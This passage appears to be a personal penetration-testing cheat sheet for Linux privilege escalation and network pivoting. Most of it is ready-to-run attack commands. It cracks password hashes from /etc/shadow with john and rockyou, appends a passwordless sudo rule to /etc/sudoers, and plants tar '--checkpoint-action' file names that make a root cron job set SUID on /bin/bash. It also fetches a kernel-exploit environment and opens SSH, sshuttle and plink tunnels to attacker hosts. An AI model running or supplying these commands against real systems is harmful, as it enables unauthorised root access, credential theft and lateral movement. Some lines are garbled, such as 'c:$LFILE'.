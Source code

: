 ### shadow
```bash
unshadow ./etc/passwd ./etc/shadow > unshadow.txt
# $y$
john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt --rules /usr/share/john/rules/best64.rule unshadow
```

### sudoer
```bash
LFILE='/etc/sudoers'
echo username ALL=(ALL) NOPASSWD: ALL >> c:$LFILE 
```

### Kernel Ecpliot
```bash
# Environment
wget https://github.com/schecthellraiser606/oscp_cheet/raw/main/Dockerfile
docker build -t vuln .
docker run -v /root/work/:/work -it vuln /bin/bash
```

### Cron File backup
```bash
echo 'chmod +s /bin/bash' >root.sh
chmod +x root.sh
touch '/var/www/html/--checkpoint=1'
touch '/var/www/html/--checkpoint-action=exec=bash root.sh'
```

# Transfer
## Port Forwading
### SSH
```bash
# localport
ssh -L 4455:172.16.50.217:445 database_admin@10.4.50.215
# l Dynamic
## proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
ssh -D 0.0.0.0:1080 database_admin@10.4.50.215
tail /etc/proxychains4.conf

# remote
sudo systemctl start ssh
ssh -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
# よくあるやつ
ssh -D 0.0.0.0:1080 -R 80:127.0.0.1:80 -R 1336:192.168.45.205:1336 support@192.168.228.153

# r Dynamic
ssh -R 1080 kali@192.168.118.4
tail /etc/proxychains4.conf
```
#### sshuttle
```bash
sshuttle -r database_admin@192.168.50.63:22 10.4.50.0/24 172.16.50.0/24
```
#### plink
```bash
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```